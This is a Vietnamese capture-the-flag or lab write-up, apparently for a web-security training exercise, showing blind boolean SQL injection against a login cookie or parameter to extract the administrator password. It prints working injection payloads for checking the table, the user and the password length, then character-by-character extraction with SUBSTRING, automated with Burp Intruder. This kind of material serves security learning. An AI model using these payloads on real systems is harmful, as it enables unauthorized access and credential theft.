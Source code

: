 Đầu tiên, ta chèn vào câu lệnh luôn đúng và luôn sai để xem response của web
![](https://hackmd.io/_uploads/SJzpzisz6.png)
![](https://hackmd.io/_uploads/S1Vazijzp.png)
Web sẽ trả về *"Welcome back"* nếu câu truy vấn đúng, và không trả về gì nếu truy vấn sai

Tận dụng lỗi này để khai thác `password` của tài khoản `administrator`

Kiểm tra xem bảng `users` có tồn tại hay không bằng payload
```sql
'+AND+(SELECT+'a'+FROM+users+LIMIT+1)='a'--
```
![](https://hackmd.io/_uploads/Skv1NojM6.png)
Trả về *"Welcome back"* nên tồn tại bảng `users`

Kiểm tra xem có `username` nào là `administrator` hay không bằng payload
```sql
'+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator')='a'--
```
![](https://hackmd.io/_uploads/BJ-UNijGa.png)
Trả về *"Welcome back"* nên tồn tại `username` là `administrator`

Tiếp theo, kiểm tra độ dài của `password` là bao nhiêu bằng payload
```sql
'+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)>1)='a'--
```
![](https://hackmd.io/_uploads/rJy_Vcnz6.png)
Trả về *"Welcome back"* tức là password có độ dài lớn hơn 1

Ta sẽ brute force bằng Burp Intruder với attack type *Sniper* và payload với đối số là 1
![](https://hackmd.io/_uploads/Hy1hBqnMT.png)
![](https://hackmd.io/_uploads/B1Lr5q2Mp.png)
![](https://hackmd.io/_uploads/rklvtq3zT.png)
![](https://hackmd.io/_uploads/H13J3qnfT.png)
Như vậy, password có độ dài 20 kí tự

Tiếp theo, brute force từng kí tự trong password
Payload
```sql
'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='a'--
```
Gửi qua Intruder
- Gán 2 biến: biến thứ nhất là vị trí trong xâu, từ 1 -> 20; biến thứ hai là kí tự kiểm tra, a -> z, 0 -> 9
- Attack type là *Cluster bomb*
![](https://hackmd.io/_uploads/HJAPTo3f6.png)
- Gán miền giá trị cho từng biến
![](https://hackmd.io/_uploads/Skcolsnfa.png)
![](https://hackmd.io/_uploads/r1nAgjnfT.png)
- Nếu trả về *"Welcome back"* thì chính là kí tự đúng
![](https://hackmd.io/_uploads/H1ce-s2Ga.png)
